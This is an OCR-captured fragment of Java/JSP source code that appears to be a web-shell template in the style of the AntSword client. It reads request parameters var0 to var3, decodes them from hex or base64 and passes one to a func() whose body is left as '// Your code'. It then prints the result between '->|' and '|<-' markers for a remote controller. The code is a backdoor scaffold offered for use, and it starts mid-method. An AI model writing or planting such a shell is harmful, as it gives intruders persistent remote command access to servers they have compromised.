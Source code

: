 ```
        StringBuffer output = new StringBuffer("");
        StringBuffer sb = new StringBuffer("");
        try {
            response.setContentType("text/html");
            request.setCharacterEncoding(cs);
            response.setCharacterEncoding(cs);
            String var0 = EC(decode(request.getParameter("var0")+""));
            String var1 = EC(decode(request.getParameter("var1")+""));
            String var2 = EC(decode(request.getParameter("var2")+""));
            String var3 = EC(decode(request.getParameter("var3")+""));
            output.append("->" + "|");
            sb.append(func(var1));
            output.append(sb.toString());
            output.append("|" + "<-");
            page.getOut().print(output.toString());
        } catch (Exception e) {
            sb.append("ERROR" + ":// " + e.toString());
        }
        return true;
    }
    String EC(String s) throws Exception {
        if(encoder.equals("hex")) return s;
        return new String(s.getBytes(), cs);
    }
    String decode(String str) throws Exception{
        if(encoder.equals("hex")){
            if(str=="null"||str.equals("null")){
                return "";
            }
            String hexString = "0123456789ABCDEF";
            str = str.toUpperCase();
            ByteArrayOutputStream baos = new ByteArrayOutputStream(str.length()/2);
            String ss = "";
            for (int i = 0; i < str.length(); i += 2){
                ss = ss + (hexString.indexOf(str.charAt(i)) << 4 | hexString.indexOf(str.charAt(i + 1))) + ",";
                baos.write((hexString.indexOf(str.charAt(i)) << 4 | hexString.indexOf(str.charAt(i + 1))));
            }
            return baos.toString("UTF-8");
        }else if(encoder.equals("base64")){
            byte[] bt = null;
            sun.misc.BASE64Decoder decoder = new sun.misc.BASE64Decoder();
            bt = decoder.decodeBuffer(str);
            return new String(bt,"UTF-8");
        }
        return str;
    }
    String func (String var1){
    // Your code
    }
}
```
